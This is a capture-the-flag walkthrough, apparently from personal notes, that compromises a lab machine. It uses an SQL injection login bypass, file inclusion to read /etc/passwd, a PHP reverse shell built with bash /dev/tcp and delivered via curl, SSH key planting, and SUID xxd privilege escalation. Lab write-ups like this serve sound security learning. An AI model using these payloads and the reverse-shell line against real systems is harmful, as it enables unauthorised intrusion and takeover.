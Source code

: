 ﻿![Pasted image 20240927153835.png](../../IMAGES/Pasted%20image%2020240927153835.png)
This CTF contains a port scanning "block" method, since it show a lot of open ports in which most of services, are unavailable, for our luck, port 80 is open and has a login page:

![Pasted image 20240927153919.png](../../IMAGES/Pasted%20image%2020240927153919.png)
I tried different things such as `XSS` `LFI` `PATH TRAVERSAL` `BRUTEFORCE` and more, then when i tried `SQLI` I found a path to exploit, after trying multiple payloads, got with this one that worked for me:

`' || '1'='1';-- -`

Had to URL encode it:

`%27%20%7C%7C%20%271%27%3D%271%27%3B--%20-`

And it showed the following output:

![Pasted image 20240927154104.png](../../IMAGES/Pasted%20image%2020240927154104.png)

That location seems fun, lets visit it:

We got admin panel even without credentials:

![Pasted image 20240927154210.png](../../IMAGES/Pasted%20image%2020240927154210.png)
After looking for a while, I found that the request for messages, got me this message:

![Pasted image 20240927154349.png](../../IMAGES/Pasted%20image%2020240927154349.png)

Let's visit it:

![Pasted image 20240927154523.png](../../IMAGES/Pasted%20image%2020240927154523.png)

Nothing too useful, but then, looking at the URL I thought about a `LFI`, when i sent the request, i got this:

![Pasted image 20240927154621.png](../../IMAGES/Pasted%20image%2020240927154621.png)
I was able to read `etc/passwd` file, this website is vulnerable to `LFI`, let's get a reverse shell:

For this, i will be using the following tool:

```github
https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py`
```

Also, a simple php reverse shell, i will store it in a file called payload.txt: 

```php
"<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/IP/PORT 0>&1\"'); ?>" | grep "^php" > payload.txt
```

Now, let's send the reverse shell and establish a connection to our machine:

###### Sending the payload
`curl "http://10.10.142.162/secret-script.php?file=$(cat payload.txt)"`

![Pasted image 20240927160128.png](../../IMAGES/Pasted%20image%2020240927160128.png)


![Pasted image 20240927160136.png](../../IMAGES/Pasted%20image%2020240927160136.png)
We got our reverse shell, let's make it stable using the [shell tricks](../../Commands/Shell%20Tricks/STABLE%20SHELL.md)::

![Pasted image 20240927160349.png](../../IMAGES/Pasted%20image%2020240927160349.png)
Now, we have an stable shell, let's look for privesc:

![Pasted image 20240927160513.png](../../IMAGES/Pasted%20image%2020240927160513.png)
We cannot read user.txt contents neither use sudo -l due to the lack of the password for the user, let's look at SUID files:

![Pasted image 20240927160551.png](../../IMAGES/Pasted%20image%2020240927160551.png)

Nothing useful too, let's keep enumerating the machine:

![Pasted image 20240927160737.png](../../IMAGES/Pasted%20image%2020240927160737.png)
in `/home/comte/.ssh` we can read and write authorized keys, let's put ours:

![Pasted image 20240927161025.png](../../IMAGES/Pasted%20image%2020240927161025.png)
![Pasted image 20240927161221.png](../../IMAGES/Pasted%20image%2020240927161221.png)
I could enter ssh using my own key, let's read that `user.txt` file:

![Pasted image 20240927161301.png](../../IMAGES/Pasted%20image%2020240927161301.png)\

For privilege escalation we have this sudo permissions:

![Pasted image 20240927161701.png](../../IMAGES/Pasted%20image%2020240927161701.png)
When i read the `exploit.timer` file, I see this:

![Pasted image 20240927161722.png](../../IMAGES/Pasted%20image%2020240927161722.png)
Let's change the `OnBootSec` to 5 seconds and enable the service to see what it does:

![Pasted image 20240927161803.png](../../IMAGES/Pasted%20image%2020240927161803.png)
![Pasted image 20240927162007.png](../../IMAGES/Pasted%20image%2020240927162007.png)
Once I did this, I found that a new binary was added to the 4000 UID binaries, let's exploit `xxd` to gain root shell:

![Pasted image 20240927162104.png](../../IMAGES/Pasted%20image%2020240927162104.png)

![Pasted image 20240927162740.png](../../IMAGES/Pasted%20image%2020240927162740.png)
Now, i got root authorized key access:

![Pasted image 20240927162817.png](../../IMAGES/Pasted%20image%2020240927162817.png)
just like that, machine is done:

![Pasted image 20240927162856.png](../../IMAGES/Pasted%20image%2020240927162856.png)


